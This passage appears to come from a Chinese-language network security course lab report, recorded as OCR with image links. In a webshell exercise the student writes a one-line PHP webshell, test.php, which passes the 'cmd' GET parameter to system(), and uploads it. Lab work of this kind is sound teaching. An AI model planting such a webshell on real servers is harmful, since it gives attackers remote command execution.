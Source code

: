   - E.webshell相关操作实验
     - a. 构建用于上传的webshell，命名为`test.php`，并上传
       ```bash
        <？php 
            system（$ _ GET ['cmd']）; 
        ?>
       ```
       ![](/网络安全/chap0x07/images/2-7-E-A-1.png)
       
       ![](/网络安全/chap0x07/images/2-7-E-A-2.png)
       